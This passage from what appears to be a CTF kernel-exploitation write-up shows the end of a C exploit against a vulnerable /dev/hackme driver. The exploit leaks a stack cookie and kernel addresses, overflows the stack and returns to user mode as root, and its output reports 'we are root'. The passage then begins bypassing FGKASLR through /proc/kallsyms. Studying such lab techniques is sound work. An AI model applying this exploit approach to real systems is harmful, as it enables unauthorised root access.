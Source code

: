     payload[cookie_off++] = (uint64_t) 0; // dummy RDI
    payload[cookie_off++] = (uint64_t) user_rip;
    payload[cookie_off++] = (uint64_t) user_cs;
    payload[cookie_off++] = (uint64_t) user_rflags;
    payload[cookie_off++] = (uint64_t) user_sp;
    payload[cookie_off++] = (uint64_t) user_ss;

    write(global_fd, payload, sizeof(payload));
    puts("if you can read this, it did not work.");
}

int main(int argc, char **argv){
    open_dev();
    save_state();
    leak_cookie();
    overflow_stack();
    return 0;
}
{% endhighlight %}

Executing this code yields the following:
```
/ $ ./exploit_kaslr
[+] successfully opened /dev/hackme
[*] Saved state
[*] trying to leak up to 320 bytes memory
[+] leaked cookie 0x7db22304978a2500 at offset 16
[+] leaked kernel_base 0xffffffffb3a00000
[+] leaked prepare_kernel_cred 0xffffffffb3ec67f0
[+] leaked ksymtab_commit_creds 0xffffffffb3ec6410
[+] we are root (uid = 0)
```

The next step is dealing with full FGKASLR. Thus, the randomization takes
place on the granularity of functions.

### Comparing Addresses of Kernel Symbols
After investigating the stack, let us now compare the location of
kernel symbols for different runs.
For this, we need to modify `initramfs/etc/inittab` to give us a root shell so we
can access `/proc/kallsyms`.

We execute `run.sh` and then take a look at `/proc/kallsyms`.
For this, we needed to [increase the size of the scroll buffer of
bash](https://stackoverflow.com/questions/24795285/increase-shell-buffer-size-in-linux)
so we could simply `cat /proc/kallsyms` and copy the output.
Then, we did this again.

Comparing the locations of the kernel symbols for these two runs,
e.g., using `vimdiff` shows that FGKASLR does not apply to the whole
kernel space.

Below we see an excerpt of the first run.
```
ffffffffa7200000 T _text
...
ffffffffa7600dc6 T __x86_retpoline_r15
ffffffffa7600de0 T pm_wakeup_source_sysfs_add
...
```
